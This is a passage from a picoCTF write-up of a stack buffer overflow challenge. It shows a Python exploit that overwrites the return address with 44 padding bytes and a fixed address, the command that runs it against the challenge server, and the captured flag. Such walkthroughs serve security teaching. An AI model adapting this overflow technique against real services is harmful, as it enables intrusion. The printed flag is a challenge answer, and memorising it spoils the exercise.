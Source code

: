 ```python
offset = 44
eip = struct.pack("<I", 0x080491F6)

payload = b"".join([
    b"A"*44,
    eip,
])

payload += b"\n"

with socket.socket() as connection:
    connection.connect((args.host, args.port))
    connection.recv(4096).decode("utf-8")
    connection.send(payload)
    print(connection.recv(4096).decode("utf-8"))
    print(connection.recv(4096).decode("utf-8"))
```
#python 

Running this:
```bash
python exploit.py saturn.picoctf.net 50196
```
#python 

Returns:
```
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_ad2f467b}
```

And that's the flag.
```bash
echo "picoCTF{addr3ss3s_ar3_3asy_ad2f467b}" > flag.txt
```
#echo 

**Flag: *picoCTF{addr3ss3s_ar3_3asy_ad2f467b}***
